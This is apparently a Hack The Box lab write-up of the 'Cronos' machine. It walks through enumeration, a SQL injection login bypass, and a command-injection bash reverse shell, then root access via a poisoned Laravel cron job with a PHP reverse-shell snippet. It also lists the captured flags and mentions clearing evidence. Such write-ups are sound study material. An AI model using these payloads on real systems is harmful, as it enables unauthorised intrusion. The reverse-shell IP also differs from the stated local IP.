 # HTB: Cronos

## Engagement Overview

**Target:** Cronos
**Box IP:** 10.10.10.13
**Local IP:** 10.10.14.10
**Date:** 2025-07-12

---

### Objectives

- Exploit SQL injection and command injection to obtain a shell
- Compromise cron jobs to achieve privilege escalation to root
- Capture user and root flags

---

## Service Enumeration

```bash
# Nmap (condensed)
nmap -sC -sV -oN nmap.txt 10.10.10.13
```

**Relevant output (condensed):**

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1
53/tcp open  domain  ISC BIND 9.10.3-P4
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- DNS SOA present for `cronos.htb`
- Gobuster found nothing useful in this engagement
- Burp Suite repeater demonstrated directory listings via command injection payloads

---

## Initial Access

### SQL Injection → Command Injection

- Bypassed login at `admin.cronos.htb` using typical injection: `' or 1=1-- -`
- Used Burp Suite to craft a command injection payload via a parameter that executed arbitrary commands on the server, e.g.:
  ```
  command=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'&host=/var/www
  ```
- Result: web shell / interactive command execution as `www-data`

---

## Privilege Escalation

### Cron Job Poisoning

- Observed root cron entry running Laravel scheduled task:
  ```
  * * * * *  root  php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```
- Injected a payload that opened a reverse shell to attacker host via PHP/command injection; cron executed as root and provided a root shell.

**Example payload used (conceptual):**
```php
$sock=fsockopen("10.10.14.10",443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

**Flags captured:**
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## House Cleaning / Post-Exploitation

- Removed uploaded artifacts and reversed modifications to artisan where applicable
- Removed `linpeas.sh` and cleared evidence as appropriate

---

## Tools Utilized
- nmap, gobuster, Burp Suite, linPEAS

---

## Key Takeaways
- SQL injection can be escalated to command injection and full compromise when input is unsafely executed server-side.
- Cron jobs that execute web-app-supplied content are high-risk and should be restricted/validated.
- Comprehensive application-level hardening and least privilege for scheduled tasks are crucial.
